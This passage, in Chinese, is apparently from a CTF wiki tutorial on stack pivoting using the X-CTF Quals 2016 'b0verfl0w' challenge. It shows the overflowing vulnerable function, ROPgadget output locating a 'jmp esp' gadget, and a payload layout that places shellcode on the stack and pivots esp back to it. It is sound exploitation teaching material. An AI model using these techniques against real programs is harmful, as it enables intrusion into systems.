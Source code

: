 以 [X-CTF Quals 2016 - b0verfl0w](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/stackprivot/X-CTF Quals 2016 - b0verfl0w) 为例进行介绍。源程序为 32 位，也没有开启 NX 保护，下面我们来找一下程序的漏洞：

```c
signed int vul()
{
  char s; // [sp+18h] [bp-20h]@1

  puts("\n======================");
  puts("\nWelcome to X-CTF 2016!");
  puts("\n======================");
  puts("What's your name?");
  fflush(stdout);
  fgets(&s, 50, stdin);
  printf("Hello %s.", &s);
  fflush(stdout);
  return 1;
}
```

存在栈溢出漏洞。但是其所能溢出的字节就只有 50-0x20-4=14 个字节。

程序本身并没有开启堆栈保护，所以我们可以在栈上布置 shellcode 并执行。基本利用思路如下

- 利用栈溢出布置 shellcode
- 控制 eip 指向 shellcode 处

由于程序本身会开启 ASLR 保护，所以我们很难直接知道 shellcode 的地址。但是栈上**相对偏移是固定的**，所以我们可以利用栈溢出对 esp 进行操作，使其指向 shellcode 处，并且直接控制程序跳转至 esp 处。那下面就是找控制程序跳转到 esp 处的 gadgets 了。

```shell
➜  X-CTF Quals 2016 - b0verfl0w git:(iromise) ✗ ROPgadget --binary b0verfl0w --only 'jmp|ret'         
Gadgets information
============================================================
0x08048504 : jmp esp
0x0804836a : ret
0x0804847e : ret 0xeac1

Unique gadgets found: 3
```

这里我们发现有一个可以直接跳转到 esp 的 gadgets。那么我们可以布置 payload 如下

```
shellcode|padding|fake ebp|0x08048504|set esp point to shellcode and jmp esp
```

那么我们 payload 中的最后一部分改如何设置 esp 呢，可以知道

- size(shellcode+padding)=0x20
- size(fake ebp)=0x4
- size(0x08048504)=0x4

所以我们最后一段需要执行的指令就是

```
sub esp,0x28
jmp esp
```
